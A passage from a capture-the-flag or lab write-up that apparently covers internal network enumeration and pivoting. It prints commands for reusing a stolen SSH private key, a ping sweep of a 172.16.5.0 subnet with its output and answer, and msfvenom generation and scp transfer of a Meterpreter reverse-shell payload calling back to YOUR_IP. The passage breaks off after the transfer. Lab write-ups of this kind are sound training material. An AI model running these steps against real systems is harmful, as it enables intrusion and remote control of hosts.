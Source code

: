 
#### Question 3: Internal network enumeration
**Task:** Discover another active host and submit its IP address.

**Solution:**
1. Extract SSH private key:
```bash
cat id_rsa
# Copy the entire private key content
```

2. Save to local file and set permissions:
```bash
nano id_rsa
chmod 600 id_rsa
```

3. SSH to target:
```bash
ssh -i id_rsa webadmin@TARGET_IP
```

4. Check network interfaces:
```bash
ip a
# Shows: inet 172.16.5.15/16
```

5. Ping sweep internal network:
```bash
for i in {1..254};do (ping -c 1 172.16.5.$i | grep "bytes from" &); done
```

**Output:**
```
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.036 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=0.771 ms
```

**Answer:** `172.16.5.35`

---

#### Question 4: Pivot to discovered host
**Task:** Use gathered information to pivot to discovered host. Submit contents of C:\Flag.txt

## Method A: SOCKS Proxy (Official Walkthrough)

### Step 1: Generate Meterpreter Payload
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=9001 -f elf -o 99c0b43c4bec2bdc280741d8f3e40338.elf
```

### Step 2: Transfer Payload
```bash
scp -i id_rsa 99c0b43c4bec2bdc280741d8f3e40338.elf webadmin@TARGET_IP:~/
```
